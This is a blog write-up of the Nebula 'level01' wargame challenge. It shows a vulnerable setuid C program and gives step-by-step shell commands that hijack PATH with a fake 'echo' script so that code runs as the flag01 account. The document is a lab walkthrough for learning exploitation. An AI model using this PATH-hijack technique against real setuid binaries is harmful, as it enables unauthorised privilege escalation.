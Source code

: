 ```yaml
---
layout:     post
title:      "Nebula 01"
subtitle:   "Exploit Exercises Write-Up"
date:       2017-06-07 0:00:00
author:     "W3ndige"
permalink: /:title/
category: "Exploit Exercises"
---
```


<p>Let's start another challenge from Nebula machine and see what's our target this time. </p>

<h1>Challenge</h1>

<p><b>About</b></p>

<pre>
There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.
</pre>

<p><b>Code</b></p>

{% highlight c %}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
{% endhighlight %}

<p><b>Solution</b></p>

<p>Firstly, from the code, we know that <b>/usr/bin/env</b> will execute a program with the current enviroment. It includes a <b>$PATH</b> variable, which stores information where programs can be found. That way we can change the $PATH to some other folder, containing <b>echo</b> script. Then it will run the getflag program, just like in the previous level. </p>

{% highlight bash %}
level01@nebula:~$ cd /home/flag01
level01@nebula:/home/flag01$ ls -l
total 8
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
{% endhighlight %}

<p>In addition, setuid bit is set, so it will run as the owner <b>flag01</b>. Let's start from creating a tmp directory, which will be our fake one. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ mkdir /tmp/level01
{% endhighlight %}

<p>Now we are able to create fake PATH using export command, and then create the fake echo program. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ export PATH="/tmp/level01:$PATH"
level01@nebula:/home/flag01$ echo "getflag" > /tmp/level01/echo
{% endhighlight %}

<p>Don't forget about the execute permissions. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ chmod +x /tmp/level01/echo
{% endhighlight %}

<p>And we're ready to go, and run this vulnerable program. </p>

{% highlight bash %}
level01@nebula:/home/flag01$ ./flag01
You have successfully executed getflag on a target account
{% endhighlight %}

<p>Another challenge completed! </p>
